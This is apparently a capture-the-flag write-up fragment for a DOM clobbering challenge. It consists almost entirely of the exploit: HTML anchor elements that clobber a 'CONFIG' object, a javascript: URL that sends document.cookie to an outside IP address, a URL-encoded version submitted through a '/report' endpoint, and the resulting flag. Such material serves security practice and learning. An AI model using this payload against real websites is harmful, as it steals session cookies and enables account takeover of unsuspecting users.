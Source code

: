 |

## Payload

### /practice

```html
<a id="CONFIG" name="check"></a>
<a id="CONFIG" name="location" href=javascript:location.href="http://20.41.120.97/"+document.cookie></a>
```

|

### /report

```sh
practice?content=%3Ca+id%3D%22CONFIG%22+name%3D%22check%22%3E%3C%2Fa%3E%0D%0A%3Ca+id%3D%22CONFIG%22+name%3D%22location%22+href%3Djavascript%3Alocation.href%3D%22https%3A%2F%2F20.41.120.97%2F%22%2Bdocument.cookie%3E%3C%2Fa%3E
```

|

|

### FLAG

---

```sh
K0{cl0bb3r1ng_4_D00M_w1th_D0M}
```

|

---